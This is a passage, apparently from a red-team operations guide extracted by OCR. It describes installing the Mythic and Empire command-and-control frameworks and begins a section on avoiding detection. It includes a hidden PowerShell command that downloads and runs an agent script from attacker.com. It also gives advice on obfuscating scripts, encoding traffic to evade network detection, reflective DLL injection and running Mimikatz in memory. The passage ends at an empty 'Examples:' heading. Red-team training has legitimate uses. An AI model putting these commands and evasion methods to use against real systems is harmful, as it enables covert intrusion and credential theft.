     Setup and Usage:
        Installation:

        bash

        git clone https://github.com/its-a-feature/Mythic.git
        cd Mythic
        ./install_docker_ubuntu.sh
        ./mythic-cli start

        Generating Payloads: Use the Mythic web interface to create payloads tailored to the target environment.

C. Empire

    Description: A post-exploitation C2 framework leveraging PowerShell and Python, known for its flexibility and ease of use in Windows environments.

    Key Features:
        Fully encrypted communications
        Supports PowerShell and Python agents
        Integrated credential harvesting modules

    Setup and Usage:
        Installation:

        bash

git clone https://github.com/EmpireProject/Empire.git
cd Empire
./setup/install.sh
./empire

Deploying a PowerShell Agent:

powershell

        powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/agent.ps1')"

Enhancing C2 Operations:

    Obfuscation: Use tools like Invoke-Obfuscation for PowerShell scripts to evade detection.
    Fallback Channels: Set up multiple C2 channels (e.g., HTTP, DNS, SMB) to ensure communication remains open if one channel is blocked.
    Data Encoding: Encode data to avoid triggering network detection systems (e.g., base64 encoding).

2. Detection Avoidance Techniques

Avoiding detection is crucial for the success of any red team operation. This section outlines methods to minimize the chances of detection by security systems.
Techniques for Evasion:
A. In-Memory Execution

    Description: Running code directly in memory avoids writing malicious binaries to disk, reducing the likelihood of detection by antivirus software.
    Tools:
        Reflective DLL Injection: Load a DLL into memory and execute it.
        Invoke-Mimikatz: Run the Mimikatz tool in memory using PowerShell.
    Examples:
